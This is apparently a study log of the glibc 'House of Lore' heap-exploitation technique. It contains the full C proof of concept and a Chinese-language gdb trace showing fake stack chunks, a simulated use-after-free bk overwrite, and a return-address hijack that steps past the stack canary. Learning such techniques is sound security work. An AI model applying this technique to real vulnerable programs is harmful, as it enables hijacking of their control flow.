# house_of_lore.log
## source code
```cpp
void jackpot(){ puts("Nice jump d00d"); exit(0); }

int main(int argc, char * argv[]){


  intptr_t* stack_buffer_1[4] = {0};
  intptr_t* stack_buffer_2[3] = {0};

  printf("\nWelcome to the House of Lore\n");
  printf("This is a revisited version that bypass also the hardening check introduced by glibc malloc\n");
  printf("This is tested against Ubuntu 14.04.4 - 32bit - glibc-2.23\n\n");

  printf("Allocating the victim chunk\n");
  intptr_t *victim = malloc(100);
  printf("Allocated the first small chunk on the heap at %p\n", victim);

  // victim-WORD_SIZE because we need to remove the header size in order to have the absolute address of the chunk
  intptr_t *victim_chunk = victim-2;

  printf("stack_buffer_1 at %p\n", (void*)stack_buffer_1);
  printf("stack_buffer_2 at %p\n", (void*)stack_buffer_2);

  printf("Create a fake chunk on the stack");
  printf("Set the fwd pointer to the victim_chunk in order to bypass the check of small bin corrupted"
         "in second to the last malloc, which putting stack address on smallbin list\n");
  stack_buffer_1[0] = 0;
  stack_buffer_1[1] = 0;
  stack_buffer_1[2] = victim_chunk;

  printf("Set the bk pointer to stack_buffer_2 and set the fwd pointer of stack_buffer_2 to point to stack_buffer_1 "
         "in order to bypass the check of small bin corrupted in last malloc, which returning pointer to the fake "
         "chunk on stack");
  stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
  stack_buffer_2[2] = (intptr_t*)stack_buffer_1;
  
  printf("Allocating another large chunk in order to avoid consolidating the top chunk with"
         "the small one during the free()\n");
  void *p5 = malloc(1000);
  printf("Allocated the large chunk on the heap at %p\n", p5);


  printf("Freeing the chunk %p, it will be inserted in the unsorted bin\n", victim);
  free((void*)victim);

  printf("\nIn the unsorted bin the victim's fwd and bk pointers are nil\n");
  printf("victim->fwd: %p\n", (void *)victim[0]);
  printf("victim->bk: %p\n\n", (void *)victim[1]);

  printf("Now performing a malloc that can't be handled by the UnsortedBin, nor the small bin\n");
  printf("This means that the chunk %p will be inserted in front of the SmallBin\n", victim);

  void *p2 = malloc(1200);
  printf("The chunk that can't be handled by the unsorted bin, nor the SmallBin has been allocated to %p\n", p2);

  printf("The victim chunk has been sorted and its fwd and bk pointers updated\n");
  printf("victim->fwd: %p\n", (void *)victim[0]);
  printf("victim->bk: %p\n\n", (void *)victim[1]);

  //------------VULNERABILITY-----------

  printf("Now emulating a vulnerability that can overwrite the victim->bk pointer\n");

  victim[1] = (intptr_t)stack_buffer_1; // victim->bk is pointing to stack

  //------------------------------------

  printf("Now allocating a chunk with size equal to the first one freed\n");
  printf("This should return the overwritten victim chunk and set the bin->bk to the injected victim->bk pointer\n");

  void *p3 = malloc(100);


  printf("This last malloc should trick the glibc malloc to return a chunk at the position injected in bin->bk\n");
  char *p4 = malloc(100);
  printf("p4 = malloc(100)\n");

  printf("\nThe fwd pointer of stack_buffer_2 has changed after the last malloc to %p\n",
         stack_buffer_2[2]);

  printf("\np4 is %p and should be on the stack!\n", p4); // this chunk will be allocated on stack
  intptr_t sc = (intptr_t)jackpot; // Emulating our in-memory shellcode
  memcpy((p4+44), &sc, 8); // This bypasses stack-smash detection since it jumps over the canary
}
```

## environment
Ubuntu x86 glibc-2.13
gdb-peda

## trace
第一次malloc：


大小为0x68=104((100+8-4)align(8))。
stack_buffer_1和stack_buffer_2的起始地址分别是0xbffff5a8和0xbffff59c。

在stack_buffer_1起始处伪造chunk：


preSize和curSize都是0，fd指针设置成了victim对应的chunk起始地址。继续设置伪造chunk的bk指针，设置为stack_buffer_2起始地址。

bk设置成的stack_buffer_2又是一个伪造chunk，修改对应的fd指针成stack_buffer_1伪造chunk：


再次分配一个1008的chunk，防止free victim时与top chunk合并：


free victim：


链到了unsorted bin上：


此时last remainder为空，unsorted bin上唯一的chunk是victim。

再次分配chunk：


由于malloc时会一路遍历到unsorted bin，但victim不足以切割0x4b8大小的chunk，所以malloc中会把unsorted bin上的chunk全部打回原形，链到了应属的small bin上。此时也可以看到main_arena上unsorted bin已空，而由于0x4b8最终还是top chunk分配的，所以top chunk ptr也相应更新。

此时再看free chunk victim:


其fd和bk指针与main_arena上吻合，表示已经链到了所属的small bin上。
此时修改victim（这属于UAF）的bk指针，指向栈上的伪造chunk stack_buffer_1，然后再次分配一个104大小的small chunk，此时会直接把victim重新分配出去，并更新了small bin上的指针：


可以看到此时的small bin[idx]的bk指针指向了stack_buffer_1，但fd指针依然指向victim。

由此，再次分配104大小的chunk时，stack_buffer_1这个伪造的chunk就会被分配出去(尽管这个chunk的curSize根本不对，但却无所谓，毕竟它已经被链到bin上了，如果未来glibc额外做了size检查，继续伪造对应字段即可)，并按同样的套路更新small bin的指针：


stack_buffer_2的fd指针此时指向了small bin[idx]。

此后就可以对stack为所欲为，把jackpot函数覆盖ret eip，而由于这种方式是堆式狙击而非栈式轰炸，可以避免开启了canary防护的canary值被篡改而失败。

调整了一下我的环境中栈覆盖的尺寸，从原来的40调到44，成功hook ret eip：
